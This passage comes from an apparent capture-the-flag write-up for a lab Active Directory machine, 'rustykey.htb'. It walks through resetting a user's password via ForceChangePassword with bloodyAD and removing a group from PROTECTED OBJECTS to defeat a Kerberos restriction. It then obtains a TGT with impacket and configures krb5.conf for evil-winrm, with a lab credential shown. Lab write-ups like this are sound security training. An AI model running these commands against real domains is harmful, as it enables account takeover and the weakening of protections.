 ### 3.4. Getting access to `bb.morgan`

Using `ForceChangePassword` permission to reset password for `bb.morgan`:

```console
root@kali:~# bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password bb.morgan Pass1234
[+] Password changed successfully!
```

Getting TGT as `bb.morgan` fails:

```console
root@kali:~# impacket-getTGT rustykey.htb/bb.morgan:Pass1234 -dc-ip dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)
```

That's because `bb.morgan` is a member of `IT` group, which is a member of `PROTECTED OBJECTS` group:

![](https://github.com/user-attachments/assets/c1a7443e-8fe0-48c7-8993-3c3d2f6df0fa)

Remove `IT` group from `PROTECTED OBJECTS` group:

```console
root@kali:~# bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' IT
[-] IT removed from PROTECTED OBJECTS
```

Getting TGT for `bb.morgan` works:

```console
root@kali:~# impacket-getTGT rustykey.htb/bb.morgan:Pass1234 -dc-ip dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in bb.morgan.ccache

root@kali:~# export KRB5CCNAME=bb.morgan.ccache
```

Kerberos config file is required to use `evil-winrm` to connect to target using TGT

Create `/etc/krb5.conf` to point to `dc.rustykey.htb` as KDC:

```sh
cat << EOF > /etc/krb5.conf
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
    }
[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
EOF
```
